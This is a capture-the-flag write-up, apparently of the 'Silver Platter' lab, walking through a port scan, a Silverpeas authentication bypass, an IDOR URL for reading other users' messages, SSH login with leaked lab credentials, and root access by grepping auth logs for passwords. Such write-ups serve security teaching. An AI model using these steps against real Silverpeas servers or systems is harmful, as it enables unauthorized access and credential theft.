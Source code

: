 # Silver Platter



## Ports Scan

```bash
nmap -T4 -A -p 22,80,8080 --min-rate 1000 10.10.49.42 -oN port_scan.txt -Pn

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3b:f4:48:e3:17:b8:3a:33:32:cb:b6:79:82:96:07:aa (ECDSA)
|_  256 3b:1f:a3:fe:0b:2c:79:9a:58:98:66:e6:cf:81:aa:72 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:20 GMT
|     <html><head><title>Error</title></head><body>404 - Not Found</body></html>
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SMBProgNeg, SSLSessionReq, Socks5, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Length: 0
|     Connection: close
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     Connection: close
|     Content-Length: 74
|     Content-Type: text/html
|     Date: Thu, 24 Jul 2025 07:43:19 GMT
|_    <html><head><title>Error</title></head><body>404 - Not Found</body></html>
```



## Web Enumeration

In the web site contact page we found this:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Probably other HTTP port 8080 is a Silverpeas server.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Searching on internet we can get that the default port might be the `8080` and the default route is `/silverpeas`.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2024-36042 - Silverpeas Auth Bypass

Looking the years in the bottom of the page i can image that the software is not updated.

And... searching on web we have found a Authentication Bypass vulnerability

{% embed url="https://gist.github.com/ChrisPritchard/4b6d5c70d9329ef116266a6c238dcb2d" %}

I tried to replicate this PoC and tata...

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### CVE-2023-47323 - SilverPeas Broken Access Control

The version of the service is the 6.3.1

We can search on the web the version to find vulnerabilities

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The CVE-2023-47322 looks interesting, it should allow us to read all message of all users.

{% embed url="https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2023-47323" %}

```
http://10.10.206.103:8080/silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=1
```

Change the ID with BurpSuite we can enumerate the messages. Taking a look to the message with ID 6, this message contains SSH credentials

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
SSH credential
tim:cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```



## Initial Access

SSh connection

```bash
ssh tim@10.10.206.103
> cm0nt!md0ntf0rg3tth!spa$$w0rdagainlol
```

First things first, let's go to print the user flag

```bash
cat /home/tim/user.txt
```



## Privilege Escalation

### "adm" group PrivEsc

```bash
id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

> Traditionally the `adm` group is used to give a user access to some sort of system log files.\
> See e.g. `ls -l /var/log`.

With the log files acces, we can grep possible cleat-text password

{% code overflow="wrap" %}
```bash
cat /var/log/auth* | grep -i --text "pass"

Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1

```
{% endcode %}

With this password we can try to do password spray with know users.

```bash
su tyler
> _Zd_zx7N823/
```

That's it, we have access as tyler.

```bash
sudo -l

User tyler may run the following commands on ip-10-10-142-94:
    (ALL : ALL) ALL
```

User tyler has all privilege, and with this user we can became root.

```bash
sudo su
```

Now that we are root, we can print the root flag.

```bash
cat /root/root.txt
```



